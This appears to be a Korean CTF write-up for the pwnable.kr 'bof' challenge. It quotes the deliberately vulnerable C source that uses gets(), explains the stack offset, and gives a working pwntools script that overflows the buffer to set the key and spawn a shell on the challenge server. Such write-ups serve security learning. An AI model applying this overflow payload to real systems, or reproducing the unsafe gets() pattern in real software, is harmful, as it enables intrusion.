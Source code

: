 # [pwnable.kr] bof

> Nana told me that buffer overflow is one of the most common software vulnerability. 
> Is that true?
>
> Download : http://pwnable.kr/bin/bof
> Download : http://pwnable.kr/bin/bof.c
>
> Running at : nc pwnable.kr 9000
>
> [Attachment](./attachment)

## Analysis

```c
/* bof.c */

#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

`func()`에서 `overflowme`에 입력을 받을 때 `gets()`를 사용하여 Stack buffer overflow가 발생할 수 있다.

## Exploit

Stack BOF를 이용하여 `func()`의 인자인 `key`의 값을 `0xcafebabe`로 덮어쓰면 플래그를 획득할 수 있다.

![image](https://github.com/h0meb0dy/h0meb0dy/assets/104156058/13e8a6cd-49b3-4744-90f9-7703080fb06f)

![image](https://github.com/h0meb0dy/h0meb0dy/assets/104156058/a2bad5fe-844a-4842-ad4c-f42abad5c782)

`overflowme`와 `key`의 주소는 `0x34`만큼 차이가 나기 때문에, `0x34`바이트의 dummy 뒤에 `0xcafebabe`를 이어붙이면 `key`를 덮어쓸 수 있다.

```python
# ex.py

from pwn import *

r = remote("pwnable.kr", 9000)

payload = b"A" * 0x34
payload += p32(0xCAFEBABE)

r.sendline(payload)

r.interactive()
```

![image](https://github.com/h0meb0dy/h0meb0dy/assets/104156058/c93cd74b-ba38-4d62-bfda-52cb564f8bb5)
